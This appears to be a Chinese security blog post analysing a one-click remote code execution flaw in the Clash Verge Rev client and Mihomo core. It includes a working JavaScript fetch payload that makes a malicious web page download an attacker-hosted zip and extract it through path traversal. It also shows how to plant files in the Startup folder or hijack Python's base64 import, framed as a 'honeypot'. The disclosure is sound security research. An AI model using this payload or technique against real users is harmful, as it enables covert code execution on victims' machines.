 #  Clash Verge 客户端 1-Click RCE 漏洞与蜜罐利用分析   
Hee  安全的黑魔法   2025-05-23 14:17  
  
## Clash Verge 客户端 1-Click RCE 漏洞与蜜罐利用分析  
### 漏洞分析  
#### 影响范围与组件  
  
此漏洞影响特定版本的 Clash Verge 客户端及其集成的 Mihomo 核心。详细受影响组件及版本如下表所示：  
<table><thead><tr style="border: 0;border-top: 1px solid #ccc;background-color: white;"><th style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;font-weight: bold;background-color: #f0f0f0;"><section><span leaf="">名称</span></section></th><th style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;font-weight: bold;background-color: #f0f0f0;"><section><span leaf="">版本</span></section></th><th style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;font-weight: bold;background-color: #f0f0f0;"><section><span leaf="">地址</span></section></th></tr></thead><tbody><tr style="border: 0;border-top: 1px solid #ccc;background-color: white;"><td style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;"><section><span leaf="">Clash Verge Rev</span></section></td><td style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;"><section><span leaf="">v2.2.4 alpha（当前最新）</span></section></td><td style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;"><section><span leaf="">https://github.com/clash-verge-rev/clash-verge-rev</span></section></td></tr><tr style="border: 0;border-top: 1px solid #ccc;background-color: #F8F8F8;"><td style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;"><section><span leaf="">Mihomo</span></section></td><td style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;"><section><span leaf="">v1.19.8 （当前最新）</span></section></td><td style="font-size: 16px;border: 1px solid #ccc;padding: 5px 10px;text-align: left;"><section><span leaf="">https://github.com/MetaCubeX/mihomo/tree/Meta</span></section></td></tr></tbody></table>#### 技术成因与原理  
  
该漏洞的核心在于一处任意文件写入缺陷，可进一步升级为远程代码执行（RCE）。其触发与利用涉及以下几个关键环节：  
1. **API服务暴露与CORS配置不当**  
：Clash Verge 客户端在默认配置下，会于 http://127.0.0.1:9097  
 启动一个RESTFul API服务。由于存在CORS（跨源资源共享）配置问题，允许恶意构造的网页跨域调用此API。  
  
1. **通过API修改核心配置**  
：攻击者可利用上述API中的 /configs  
 端点，向客户端提交恶意的配置数据，从而篡改Mihomo（Clash核心）的运行配置。  
  
1. **路径遍历漏洞与任意文件写入**  
：Mihomo核心的配置文件中包含 external-ui-url  
 和 external-ui-name  
 字段。external-ui-url  
 用于指定一个ZIP压缩包的下载地址，客户端会下载此ZIP包并解压。external-ui-name  
 则用于指定解压的子目录名称。尽管 external-ui  
 字段本身可能存在路径穿越检查，但 external-ui-name  
 字段的检查不完善，攻击者可利用 ..\  
 等字符进行路径遍历，将ZIP包中的恶意文件解压到系统任意可写位置。  
  
1. **实现远程代码执行（RCE）**  
：成功实现任意文件写入后，攻击者可通过多种方式将此升级为RCE。例如，可以将恶意脚本或程序写入系统的自启动目录、覆盖常用软件的插件（如本文后续将以IDA插件为例说明）、或利用DLL劫持等技术。  
  
以下JavaScript代码片段演示了如何通过 fetch  
 API调用本地服务，触发文件下载与路径遍历写入：  
```
fetch("http://127.0.0.1:9097/configs", {    method: "PUT",    headers: { 'Content-Type': 'application/json' },    body: JSON.stringify({        payload: `external-ui: 任意名称external-ui-url: ${document.location.origin + '/malware.zip'}external-ui-name: ..\\..\\..\\..\\目标路径`, // 此处利用路径遍历        path: ""    })})
```  
### 高级利用：构建蜜罐  
  
鉴于此漏洞具备的任意文件写入能力，使其非常适合用于构建客户端蜜罐，用以检测和捕获针对性的攻击尝试。  
#### 文件写入行为模式  
  
深入理解漏洞在文件写入时的具体行为模式，对于精确利用此漏洞或设计有效的蜜罐至关重要。根据测试，其写入行为主要分为以下两种情况：  
1. **空目录写入行为**  
：  
  
1. 若 external-ui-name  
 参数指向一个已存在的空目录，则ZIP压缩包内的文件内容会直接解压至该目录，并不会创建额外的子目录。  
  
1. 例如：若 external-ui-name  
 设置为 ..\..\..\..\..\..\2123  
，且 C:\2123  
 是一个存在的空目录，则ZIP包内容将被直接解压到 C:\2123\  
 目录下。  
  
1. **非空目录或不存在路径的写入行为**  
：  
  
1. 若 external-ui-name  
 参数指向一个非空目录，或该路径本身不存在，系统则会在指定路径的末端组件创建一个新的子目录，并将ZIP压缩包内容解压到这个新创建的子目录中。  
  
1. 例如：若 external-ui-name  
 设置为 ..\..\Microsoft\Windows\Start Menu\Programs\Startup\MyFolder  
，系统会在 Startup  
 目录下创建一个名为 MyFolder  
 的子目录，然后将ZIP内容解压至 Startup\MyFolder\  
。  
  
#### 蜜罐实现：Python库劫持  
  
基于上述文件写入行为，可以设计一个蜜罐页面，当用户访问时，利用此漏洞向其本地写入恶意文件，从而实现特定条件下的代码执行。以下以劫持Python标准库为例进行说明：  
  
Python在导入一个模块（例如 import base64  
）时，会按照其搜索路径（sys.path  
）查找。  
  
它会首先尝试寻找一个名为 base64  
 的**目录**  
（即一个包），如果找到该目录，则会执行该目录下的 __init__.py  
 文件来初始化这个包。  
  
只有在找不到名为 base64  
 的目录时，Python才会继续寻找名为 base64.py  
 的**文件**  
（即一个模块）。  
  
利用这一特性，我们可以通过此漏洞在目标Python库路径下（或sys.path  
中优先级更高的位置）创建一个名为 base64  
 的**文件夹**  
（即伪装成一个包），并在该文件夹内放置一个恶意的 __init__.py  
 文件。当用户后续执行的Python脚本尝试导入 base64  
 库时，我们的恶意 __init__.py  
 将被优先执行，从而达到代码执行的目的。  
  
下图展示了Python库的典型存放路径：![image-20250523101848436](https://mmbiz.qpic.cn/sz_mmbiz_png/o85eMywxzFThL7G5unG7e1BXe9vqmribyNwCtkOGcZnS429iacFibE4kCkiah8oMC7FCrtBSONMxlIbFBRq3nFsYeQ/640?wx_fmt=png&from=appmsg "")  
  
  
正常情况下，Python加载标准 base64  
 库的过程：![PixPin_2025-05-23_10-19-37](https://mmbiz.qpic.cn/sz_mmbiz_gif/o85eMywxzFThL7G5unG7e1BXe9vqmribyWuEvoN0TEh3ecLD46IkaDmzFnC78MenCia0KzicMsa2SjdP0XdgfebwA/640?wx_fmt=gif&from=appmsg "")  
  
  
漏洞利用示例——通过写入恶意的 base64  
 文件夹（包含恶意 __init__.py  
）实现劫持，并在导入时执行非预期代码（如弹出计算器）：![PixPin_2025-05-23_10-24-47](https://mmbiz.qpic.cn/sz_mmbiz_gif/o85eMywxzFThL7G5unG7e1BXe9vqmribyO5eicRM1LRH8q1XnGoartKLXb22SlCCrmz66rgHkiblGiaMEfB1ufx0Og/640?wx_fmt=gif&from=appmsg "")  
  
#### 风险总结  
  
此Clash Verge客户端漏洞带来了显著的安全风险。用户在使用了受影响版本的客户端时，仅仅通过浏览器访问一个嵌入了恶意JavaScript代码的网页，就可能在毫不知情的情况下被植入恶意文件，进而导致其计算机被攻击者远程控制。这是一个典型的"1-Click"式攻击场景，用户交互极少，隐蔽性高，危害性大。  
#### 参考链接：  
> https://zyen84kyvn.feishu.cn/docx/PXu6dsXf0onNdRxs8LfceNXjncb  
  
  
  
